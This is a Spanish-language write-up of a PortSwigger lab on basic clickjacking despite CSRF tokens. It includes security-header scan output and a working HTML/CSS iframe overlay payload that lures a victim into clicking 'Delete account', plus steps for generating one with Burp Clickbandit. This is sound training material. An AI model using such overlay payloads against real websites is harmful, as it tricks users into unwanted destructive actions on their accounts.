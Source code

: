 ```yaml
---
title: "Basic clickjacking with CSRF token protection"
description: "Laboratorio de Portswigger sobre Clickjacking"
date: 2025-03-26 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Clickjacking
tags:
  - Portswigger Labs
  - Clickjacking
  - Basic clickjacking with CSRF token protection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene funcionalidad de `inicio de sesión` y un botón de `eliminar cuenta` que está protegido por un `token CSRF`. El `usuario víctima` hará `click` en elementos que muestran la palabra `"click"`

Para `resolver` el `laboratorio`, debemos crear un `HTML` que enmarque la página de la cuenta y `engañe` al `usuario` para que `elimine` su `cuenta`. El `laboratorio` se resuelve cuando la `cuenta` es eliminada. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Guía de clickjacking

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de clickjacking` [https://justice-reaper.github.io/posts/Clickjacking-Guide/](https://justice-reaper.github.io/posts/Clickjacking-Guide/)

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/Clickjacking-Lab-1/image_1.png)

Si hacemos click sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/Clickjacking-Lab-1/image_2.png)

Después de `iniciar sesión` vemos que podemos `cambiarnos` el `correo electrónico` y `eliminar` la `cuenta`

![](/assets/img/Clickjacking-Lab-1/image_3.png)

Si pulsamos sobre `View post` vemos que hay una sección de comentarios

![](/assets/img/Clickjacking-Lab-1/image_4.png)

Para ver si una `web` es `vulnerable` a `Clickjacking` podemos usar la herramienta `shcheck` [https://github.com/santoru/shcheck.git](https://github.com/santoru/shcheck.git()) para `identificar` las `cabeceras de seguridad`

```
# shcheck.py -i -x -k https://0a160029048081a6869fe54a003f00c3.web-security-academy.net/

======================================================
 > shcheck.py - santoru ..............................
------------------------------------------------------
 Simple tool to check security headers on a webserver 
======================================================

[*] Analyzing headers of https://0a160029048081a6869fe54a003f00c3.web-security-academy.net/
[!] URL Returned an HTTP error: 404
[*] Effective URL: https://0a160029048081a6869fe54a003f00c3.web-security-academy.net/
[!] Missing security header: X-XSS-Protection
[!] Missing security header: X-Frame-Options
[!] Missing security header: X-Content-Type-Options
[!] Missing security header: Strict-Transport-Security
[!] Missing security header: Content-Security-Policy
[!] Missing security header: X-Permitted-Cross-Domain-Policies
[!] Missing security header: Referrer-Policy
[!] Missing security header: Expect-CT
[!] Missing security header: Permissions-Policy
[!] Missing security header: Cross-Origin-Embedder-Policy
[!] Missing security header: Cross-Origin-Resource-Policy
[!] Missing security header: Cross-Origin-Opener-Policy

[*] No information disclosure headers detected

[*] No caching headers detected
-------------------------------------------------------
[!] Headers analyzed for https://0a160029048081a6869fe54a003f00c3.web-security-academy.net/
[+] There are 0 security headers
[-] There are not 12 security headers
```

Si preferimos usar una herramienta `web` podemos usar `securityheaders` [https://securityheaders.com/](https://securityheaders.com/) 

![](/assets/img/Clickjacking-Lab-1/image_5.png)

En este caso, vemos que la `web` no tiene ni `Content-Security-Policy (CSP)` ni `X-Frame-Options`, lo cual la hace vulnerable a `Clickjacking`. Nos dirigimos al `Exploit Server` y pegamos este `payload`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.3;
       z-index: 2;
   }
   div {
       position:absolute;
       top:495px;
       left:70px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a4a00f50345e77a8330fffc00bc001c.web-security-academy.net/my-account"></iframe>
```

![](/assets/img/Clickjacking-Lab-1/image_6.png)

Pinchamos sobre `View exploit` para `comprobar` que está `bien centrado` el `div` que contiene el texto `Click me`

![](/assets/img/Clickjacking-Lab-1/image_7.png)

Una vez comprobado `modificamos` la `opacidad` a `0`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:495px;
       left:70px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a4a00f50345e77a8330fffc00bc001c.web-security-academy.net/my-account"></iframe>
```

![](/assets/img/Clickjacking-Lab-1/image_8.png)

Otra forma alternativa sería usando la herramienta `Clickbandit` de `Burpsuite`, para usarla nos dirigimos a `Burpsuite` y pulsamos `Burp > Burp Clickbandit`

![](/assets/img/Clickjacking-Lab-1/image_9.png)

Pulsamos sobre `Copy Clickbandit to clipboard`

![](/assets/img/Clickjacking-Lab-1/image_10.png)

Nos dirigimos a `Chrome`, nos abrimos la `consola de desarrollador` y `pegamos` ahí todo el `código`

![](/assets/img/Clickjacking-Lab-1/image_11.png)

Una vez hecho esto nos saldrá este menú

![](/assets/img/Clickjacking-Lab-1/image_12.png)

Pulsamos en `Start` y `marcamos` la casilla `Disable click actions` para `desactivar` los `clicks`

![](/assets/img/Clickjacking-Lab-1/image_13.png)

Lo siguiente sería `pulsar sobre el botón que queremos`, en este caso sobre `Delete account` que es el que queremos usar para el `ataque de Clickjacking`

![](/assets/img/Clickjacking-Lab-1/image_14.png)

Una vez hecho esto, `pulsamos` sobre `Finish` y se nos `mostrará` como es nuestro `payload` actualmente

![](/assets/img/Clickjacking-Lab-1/image_15.png)

Usando los símbolos `-` y `+`, podemos `subir` o `bajar` el `aumento`, y con `Toogle transparency` podemos `activar` o `desactivar` la `transparencia`. En mi caso, lo voy a dejar de esta forma. Cuando ya lo tengamos como queremos, pulsamos en `Save` y se nos `descargará` un `documento HTML`

![](/assets/img/Clickjacking-Lab-1/image_16.png)

`Pegamos` el `código` en el `Exploit server`

![](/assets/img/Clickjacking-Lab-1/image_17.png)

Pulsamos sobre `View exploit` para ver si se ve correctamente. Una vez comprobado que se `ve` y `funciona` correctamente, pulsamos sobre `Deliver exploit to victim` y completamos el `laboratorio`

![](/assets/img/Clickjacking-Lab-1/image_18.png)

